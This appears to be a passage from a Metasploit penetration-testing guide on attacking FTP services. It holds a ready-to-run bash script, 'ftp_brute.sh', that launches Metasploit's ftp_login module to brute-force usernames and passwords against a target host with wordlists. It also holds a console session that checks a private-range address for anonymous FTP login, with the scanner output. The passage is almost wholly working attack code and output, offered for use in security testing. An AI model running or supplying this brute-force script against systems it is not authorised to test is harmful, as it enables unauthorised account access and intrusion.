 ```bash
#!/bin/bash

TARGET=$1
USER_LIST=$2
PASS_LIST=$3

echo "[*] Starting FTP brute force attack"
echo "[*] Target: $TARGET"
echo "[*] User list: ${USER_LIST:-default}"
echo "[*] Password list: ${PASS_LIST:-default}"

msfconsole -q -x "
use auxiliary/scanner/ftp/ftp_login;
set RHOSTS $TARGET;
set THREADS 10;
set STOP_ON_SUCCESS true;
$( [ -n "$USER_LIST" ] && echo "set USER_FILE $USER_LIST" );
$( [ -n "$PASS_LIST" ] && echo "set PASS_FILE $PASS_LIST" );
run;
exit"
```

**Usage**:

```bash
# Using default wordlists
./ftp_brute.sh 192.168.1.100

# Using custom wordlists
./ftp_brute.sh 192.168.1.100 custom_users.txt custom_passwords.txt
```

## Anonymous FTP Access Check

### Testing for Anonymous Login

```bash
msf6 > use auxiliary/scanner/ftp/anonymous
msf6 auxiliary(scanner/ftp/anonymous) > show options

Module options (auxiliary/scanner/ftp/anonymous):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   FTPPASS     anonymous@example.com  no        The password for the specified username
   FTPUSER     anonymous         no        The username to authenticate as
   RHOSTS                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       21               yes       The target port (TCP)
   THREADS     1                yes       The number of concurrent threads

msf6 auxiliary(scanner/ftp/anonymous) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/ftp/anonymous) > run

[*] 192.168.1.100:21 - Anonymous FTP login allowed (ftp:ftp@192.168.1.100)
[*] Scanned 1 of 1 hosts (100% complete)
```
